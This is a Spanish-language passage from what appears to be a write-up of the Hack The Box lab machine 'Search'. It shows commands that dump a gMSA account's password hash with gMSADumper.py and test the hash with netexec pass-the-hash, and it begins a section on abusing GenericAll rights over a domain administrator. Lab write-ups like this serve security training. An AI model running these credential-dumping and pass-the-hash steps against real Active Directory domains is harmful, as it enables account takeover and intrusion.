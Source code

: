 Procederemos a recuperar la contraseña del gMSA a través de la herramienta **gMSADumper.py** con las credenciales del usuario "Sierra.Frye".

Una vez obtengamos el hash NTLM del gMSA, validaremos con **netexec** de que es válido.

{% code overflow="wrap" %}
```bash
python3 /opt/gMSADumper/gMSADumper.py -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -l 10.10.11.129 -d 'search.htb'

netexec smb 10.10.11.129 -u 'BIR-ADFS-GMSA$' -H 'e1e9fd9e46d0d747e1595167eedcec0f
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2603_vmware_uos2VL7p5o.png" alt=""><figcaption></figcaption></figure>

## Abusing GenericAll privileges (Change user credentials by Pass The Hash with pth-net) &#x20;

Revisando nuevamente en **BloodHound**, verificamos que a través del gMSA que disponemos su hash NTLM (BIR-ADFS-GMSA$@search.htb) dispone de privilegios de **GenericAll** sobre el usuario (tristan.davies@search.htb) que si bien recordamos es un usuario Administrador del dominio.

<figure><img src="../../../.gitbook/assets/2599_vmware_F6FNUSl7i5 (1).png" alt="" width="563"><figcaption></figcaption></figure>
